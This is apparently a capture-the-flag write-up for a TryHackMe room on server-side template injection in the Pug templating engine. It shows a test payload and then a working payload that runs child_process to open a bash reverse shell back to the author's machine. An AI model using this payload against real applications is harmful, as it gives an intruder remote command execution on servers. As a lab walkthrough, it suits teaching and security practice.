[Template Room Link](https://tryhackme.com/room/templates)
<H6>Introduction</H6>
My favourite type of dog is a pug... and, you know what, Pug is my favourite templating engine too! I made this super slick application so you can play around with Pug and see how it works. Seriously, you can do so much with Pug!.

First thing first i did is to research about the Pug template engine becasue this is my first time i heard it. After reasearching from the documentation of the [Pug official](https://pugjs.org/api/getting-started.html), im sure we can do SSTI.

![](../Images/Template-Image-1.png)

from the above image we can do SSTI with #{injection}, for the first payload i will test it with using 
```Js
#{7\*7}
```

![[../Images/Template-Image-2.png]]

then click convert will return this

![[../Images/Template-Image-3.png]]

after that we can further attack with different payload that can help up find the flag. In this case, i will try to make reverse shell that will connect to my computer with this payload
```Js
h1 #{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('bash -c "exec bash -i &>/dev/tcp/IP/PORT <&1"')}()}
```
that payload will make connection back to our computer we thay render the code

![[../Images/Template-Image-4.png]]

<H4>Link that can Help</H4>
[SSTI Cheat Sheet](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
